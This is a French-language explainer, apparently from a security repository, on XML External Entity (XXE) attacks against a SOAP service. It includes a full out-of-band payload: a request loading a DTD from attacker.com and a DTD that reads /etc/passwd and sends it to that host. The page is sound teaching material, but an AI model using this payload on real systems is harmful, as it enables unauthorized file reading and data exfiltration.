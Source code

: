 ### Ressource(s)

## XML External Entities (XXE)

Les attaques de type ``XML External Entities`` (XXE) consistent à utiliser l'appel d'une entité externe pour effectuer des actions malveillantes à l'encontre du serveur.

En effet, par défaut, de nombreux processeurs XML permettent de spécifier une entité externe : une URL déréférencée et évaluée lors du traitement XML. Si l'analyseur
n'est pas configuré autrement, les entités externes le forcent à accéder à la ressource spécifiée par l'URL (fichier local ou distant).

Ce comportement expose l'application aux attaques XXE, qui peuvent être utilisées pour causer des dénis de service sur le système, pour obtenir un accès non-autorisé
à des fichiers sur la machine locale, pour scanner des machines à l'interieur du réseau (SSRF) et voir même exécuter du code arbitraire dans certains cas.

Exemple d'une requête **POST** envoyée vers un service SOAP :

````````````````````
POST /router.php HTTP/1.1
Host: test.diplomatie.gouv.fr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 305

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE SOAP-ENV:Envelope [
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
%dtd;
]>
<SOAP-ENV:Envelope>
  <SOAP-ENV:Header>
    <foo/>
  </SOAP-ENV:Envelope>
`````````````````````

Cette requête XML spécifie une DTD externe hébergée sur un serveur externe ``attacker.com``.

Le contenu de la DTD externe ``xxe.dtd`` est le suivant :

`````````````````````
<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'http://attacker.com/%xxe;/'>">
%c;
%rrr;
`````````````````````

### Détails du fonctionnement de l'attaque
